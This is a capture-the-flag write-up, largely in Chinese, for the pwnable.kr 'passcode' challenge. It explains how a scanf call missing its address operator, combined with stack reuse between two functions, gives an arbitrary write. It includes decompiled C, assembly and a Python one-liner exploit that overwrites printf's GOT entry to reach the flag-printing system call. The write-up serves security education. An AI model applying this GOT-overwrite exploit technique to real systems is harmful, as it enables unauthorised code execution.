 ## TARGET
```
passcode - 10 pt [writeup] 

Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```
## WRITEUP
download:
```scp -P 2222 -p  passcode@pwnable.kr:/home/passcode/* ./```

漏洞信息：   
程序main函数中，welcome和login存在栈复用，welcome调用gets向ebp-0x70读入100个字符。    
login中scanf没有取地址，因此会把[ebp-10h]和[ebp-0xch]的内容当成要写入的地址。 

在welcome中，我们有一次布置数据的机会，可以造成信息泄漏、布置dirty data。  
在login中，我们可以两次任意地址写，每次写4byte。  
如果想进入system流程，需要修改[ebp-0x10]和[ebp-0xc]的内容。由于没有栈地址，在welcome中泄漏出数据之后就不能布置dirty data了。因此，考虑利用任意地址写来hijack GOT为.text中system的地址，首先需要在welcome布置[ebp-0x10]为printf GOT地址。  

scanf format %100s可以读取100 byte，正好0x60*"A"+PRINTF_GOT_ADDR也是100 byte。多的输入正好给了login中的scanf %d，也就是向GOT表中写入的值。

EXP:  
python -c "print 'A'*0x60 + '\x00\xa0\x04\x08' + '134514147'" | ./passcode

```c
unsigned int welcome()
{
  char v1; // [esp+18h] [ebp-70h]
  unsigned int v2; // [esp+7Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("enter you name : ");
  __isoc99_scanf("%100s", &v1);
  printf("Welcome %s!\n", &v1);
  return __readgsdword(0x14u) ^ v2;
}

int login()
{
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}
```

```asm
.text:08048564 ; __unwind {
.text:08048564                 push    ebp
.text:08048565                 mov     ebp, esp
.text:08048567                 sub     esp, 28h
.text:0804856A                 mov     eax, offset format ; "enter passcode1 : "
.text:0804856F                 mov     [esp], eax      ; format
.text:08048572                 call    _printf
.text:08048577                 mov     eax, offset aD  ; "%d"
.text:0804857C                 mov     edx, [ebp+var_10]
.text:0804857F                 mov     [esp+4], edx
.text:08048583                 mov     [esp], eax
.text:08048586                 call    ___isoc99_scanf
.text:0804858B                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048590                 mov     [esp], eax      ; stream
.text:08048593                 call    _fflush
.text:08048598                 mov     eax, offset aEnterPasscode2 ; "enter passcode2 : "
.text:0804859D                 mov     [esp], eax      ; format
.text:080485A0                 call    _printf
.text:080485A5                 mov     eax, offset aD  ; "%d"
.text:080485AA                 mov     edx, [ebp+var_C]
.text:080485AD                 mov     [esp+4], edx
.text:080485B1                 mov     [esp], eax
.text:080485B4                 call    ___isoc99_scanf
```

## TIPS
scanf 会将format和输入的字符进行匹配，如果不匹配，格式化操作不会生效。例如：scanf("input%d",&a);输入为input123，123才会写入a中。

举例:地址不可写时赋值失败
```asm
 ► 0xf7e53bc7 <_IO_vfscanf+15271>    mov    dword ptr [edx], eax <0xf7e60cab>
   0xf7e53bc9 <_IO_vfscanf+15273>    jmp    _IO_vfscanf+4719 <0xf7e5128f>
    ↓
   0xf7e5128f <_IO_vfscanf+4719>     add    dword ptr [ebp - 0x588], 1
   0xf7e51296 <_IO_vfscanf+4726>     mov    dword ptr [ebp - 0x570], 0
   0xf7e512a0 <_IO_vfscanf+4736>     jmp    _IO_vfscanf+760 <0xf7e50318>
```
